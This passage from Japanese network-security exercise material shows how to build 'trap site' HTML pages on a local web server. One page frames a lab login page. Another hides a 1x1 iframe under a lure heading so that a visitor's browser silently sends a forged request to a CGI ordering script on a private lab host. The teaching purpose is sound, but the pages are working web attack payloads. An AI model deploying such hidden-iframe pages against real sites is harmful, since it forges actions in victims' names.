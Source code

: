 ```bash
sudo nano /var/www/html/wana.html
```

```html
<meta http-equiv="content-type" charset="utf-8">
<html>
  <head>
  </head>
  <body>
    <iframe id="attack"
      width="300"  //iframeの幅（ピクセル）
      height="200" //iframeの高さ（ピクセル）
      src="http://192.168.1.xx/login.html">
    </iframe>
  </body>
</html>
```

![実行結果](./images/nd08009.png)


## 罠サイトにおける気づきにくいiframeのページ埋め込み

wana2.html

```bash
sudo nano /var/www/html/wana2.html
```

```html
<meta http-equiv="content-type" charset="utf-8">
<html>
  <head>
  </head>
  <body>
    <h1>ネットワーク・セキュリティ演習で必ず単位が取れる方法</h1>
    <iframe id="attack"
            width="1"  //iframeの幅（ピクセル）
            height="1" //iframeの高さ（ピクセル）
            src="http://192.168.0.21/cgi-bin/kachatter.cgi?shohin=benz">
    </iframe>
  </body>
</html>
```

